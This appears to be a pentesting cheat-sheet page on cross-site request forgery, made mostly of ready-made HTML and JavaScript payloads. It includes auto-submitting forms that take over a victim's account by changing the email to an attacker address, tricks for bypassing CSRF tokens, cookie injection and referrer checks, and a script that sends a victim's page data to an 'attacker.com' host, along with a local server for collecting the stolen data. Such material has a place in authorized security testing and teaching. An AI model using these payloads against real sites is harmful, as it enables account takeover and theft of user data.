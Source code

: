 ```yaml
---
title: CSRF (Cross-Site Request Forgery)
description: CSRF is an attacking methodology that forces an end user to execute unexpected actions on a web application. CSRF is an attack against a user's web browser.
tags:
    - Web
refs:
date: 2023-03-03
draft: false
---
```


## Account Takeover

If the victim user access to the page where the payload put in, the victim account information will be changed to the attacker's information e.g. Email address or Username.

<div data-pagefind-ignore>

```html
<form method="POST" action="https://example.com/change-email">
    <input type="hidden" name="email" value="attacker@attack.com">
</form>
<script>
    document.forms[0].submit();
</script>
```

</div>

### CSRF Token Bypass

Below is to bypass CSRF token by using another CSRF token that we get.

<div data-pagefind-ignore>

```html
<form method="POST" action="https://example.com/change-email">
    <input type="hidden" name="email" value="attacker@attack.com">
    <input type="hidden" name="csrf" value="PqORuKZMr9zIJxpZC2cA8BgHuQGVkW8h">
</form>
<script>
    document.forms[0].submit();
</script>
```

</div>

### Cookie Injection

<div data-pagefind-ignore>

```html
<form method="POST" action="https://example.com/change-email">
    <input type="hidden" name="email" value="attacker@attack.com">
</form>
<img src="https://example.com/?search=attack%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit();">
```

</div>

### Referrer Validation

Referrer validation may be enabled depending on the website.  
If so, we can try to bypass the validation by manipulating the browser's session history stack.

<div data-pagefind-ignore>

```html
<meta name="referrer" content="no-referrer">

<form method="POST" action="https://example.com/change-email">
    <input type="hidden" name="email" value="attacker@attack.com">
</form>
<script>
    // For referrer validation....
    history.pushState("", "", "/?example.com");
    
    document.forms[0].submit();
</script>
```

</div>

<br />

## Reveal Another User Information

We can retrieve the information of the another user account which accesses to the web page where the payload inserted.  
Most of the time, this attack can be executed if the web page allows us to XSS.

### Force Requesting to Our Server

Start web server in local machine for looking at the access log information.

```bash
sudo python3 -m http.server 80
```

Now send POST request with the victim's information in the target website.  
For example, assume the target web page contains the current logged-in user information in the element of the id named **"userinfo"**.

<div data-pagefind-ignore>

```bash
<script>
var secret = document.getElementById('userinfo');
var request = new XMLHttpRequest();
request.open('GET', 'http://attacker.com/' + secret, false);
request.send();
</script>
```

</div>

After a while, we can retrieve access logs contain the information of victims in local machine.

